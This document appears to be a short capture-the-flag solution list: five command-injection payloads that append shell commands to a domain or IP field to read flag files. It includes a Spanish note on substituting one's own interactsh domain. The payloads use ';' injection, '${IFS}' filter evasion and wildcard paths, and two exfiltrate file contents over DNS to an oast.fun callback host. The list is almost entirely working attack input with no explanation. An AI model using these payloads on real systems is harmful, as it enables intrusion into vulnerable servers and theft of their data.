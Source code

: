 0 domain=8.8.8.8;cat /0-flag.txt
1 domain=8.8.8.8;cat${IFS}/etc/1-flag.txt
2 google.com;cat${IFS}/*/*2-flag.txt
3 domain=8.8.8.8;cat /var/www/3-flag.txt|nslookup $(cat /var/www/3-flag.txt).ekvhsethiujkiilgmewv4zxvtsbzwtw7x.oast.fun
  donde dice -> ekvhsethiujkiilgmewv4zxvtsbzwtw7x.oast.fun cambialo por el tuyo esto lo obtine en https://app.interactsh.com/#/ y se ve asi
4 27.0.0.1:3000; nslookup $(cat /bin/4-flag.txt).ekvhsethiujkiilgmewv4zxvtsbzwtw7x.oast.fun